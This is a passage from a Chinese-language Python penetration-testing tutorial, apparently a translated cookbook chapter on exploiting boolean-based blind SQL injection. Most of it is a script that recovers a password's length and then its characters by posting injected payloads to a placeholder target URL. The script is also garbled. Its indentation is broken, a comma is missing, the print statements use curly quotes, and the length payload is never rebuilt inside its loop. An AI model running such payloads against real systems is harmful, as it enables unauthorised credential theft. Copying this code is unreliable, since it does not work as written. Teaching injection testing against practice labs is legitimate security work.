 ## 还有更多…

将此脚本与[第 1 章](1.html "Chapter 1. Gathering Open Source Intelligence")中的蜘蛛*收集开源情报*相结合，将有助于快速有效地识别网页中的可注入 URL。识别要注入的参数的方法是必要的，在大多数情况下，可以通过简单的正则表达式操作来实现。

奥迪-1 制作了一套有用的 SQLi 测试页面，可在[找到 https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs) 。

# 利用布尔 SQLi

有时候，你从一个页面上只能得到一个“是”或“否”。这让人心碎，直到你意识到这就是说“我爱你”的 SQL 等价物。根据您的耐心程度，所有 SQLi 都可以分解为是或否问题。

我们将创建一个脚本，该脚本接受一个`yes`值和一个 URL，并根据预定义的攻击字符串返回结果。我已经提供了一个示例攻击字符串，但这将根据您正在测试的系统而改变。

## 怎么做…

以下脚本是您的脚本的外观：

```py
import requests
import sys

yes = sys.argv[1]

i = 1
asciivalue = 1

answer = []
print “Kicking off the attempt”

payload = {'injection': '\'AND char_length(password) = '+str(i)+';#', 'Submit': 'submit'}

while True:
  req = requests.post('<target url>' data=payload)
  lengthtest = req.text
  if yes in lengthtest:
    length = i
    break
  else:
    i = i+1

for x in range(1, length):
  while asciivalue < 126:
payload = {'injection': '\'AND (substr(password, '+str(x)+', 1)) = '+ chr(asciivalue)+';#', 'Submit': 'submit'}
      req = requests.post('<target url>', data=payload)
      if yes in req.text:
    answer.append(chr(asciivalue))
break
  else:
      asciivalue = asciivalue + 1
      pass
asciivalue = 0
print “Recovered String: “+ ''.join(answer)
```
